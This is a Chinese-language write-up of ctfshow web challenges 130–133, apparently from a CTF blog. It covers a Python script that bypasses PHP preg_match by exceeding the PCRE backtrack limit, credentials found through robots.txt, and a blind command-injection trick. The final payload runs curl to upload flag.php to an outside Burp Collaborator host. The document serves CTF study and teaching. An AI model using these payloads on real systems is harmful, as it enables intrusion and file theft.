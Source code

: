 经过测试，其实只用ctfshow编码也行

## web130

来个非预期

    ?f=ctfshow

考点：
php正则表达式的最大回溯次数绕过。
看了羽师傅的wp，php为了防止正则表达式的拒绝服务攻击，即reDOS，给pcre设定了一个回溯次数上限pcre.backtrack_limit。
回溯次数上限默认是100万，超过100万之后preg_match是返回false，而不是0或者1。
写python脚本即可：

    import requests
    url = "http://5f79e987-ed4f-4d12-a2fe-2d78dc881cbb.chall.ctf.show:8080/"
    data = {
        'f':'very'*250001+'ctfshow'
    }
    r = requests.post(url, data=data)
    print(r.text)

## web131

同上

## web132

首先访问robots.txt，发现/admin是源码。
考点：''，比较简单

    ?username=admin&code=admin&password=fx520

## web133

首先考点，其实是命令执行的骚操作。
羽师傅的小例子：

    get传参   F=`$F `;sleep 3
    经过substr($F,0,6)截取后 得到  `$F `;
    也就是会执行 eval("`$F `;");
    我们把原来的$F带进去
    eval("``$F `;sleep 3`");
    也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
    前面的命令我们不需要管，但是后面的命令我们可以自由控制。
    这样就在服务器上成功执行了 sleep 3
    所以 最后就是一道无回显的RCE题目了

这是第一个知识点，相当于是用变量重叠执行命令。
注：羽师傅上面是不是写错了，应该是eval("$F `;sleep 3`;");吧，希望大家指正。
第二个知识点是curl的使用。

    payload 
    其中-F 为带文件的形式发送post请求
    xx是上传文件的name值，flag.php就是上传的文件 
    ?F=`$F`;+curl -X POST -F xx=@flag.php  http://8clb1g723ior2vyd7sbyvcx6vx1ppe.burpcollaborator.net
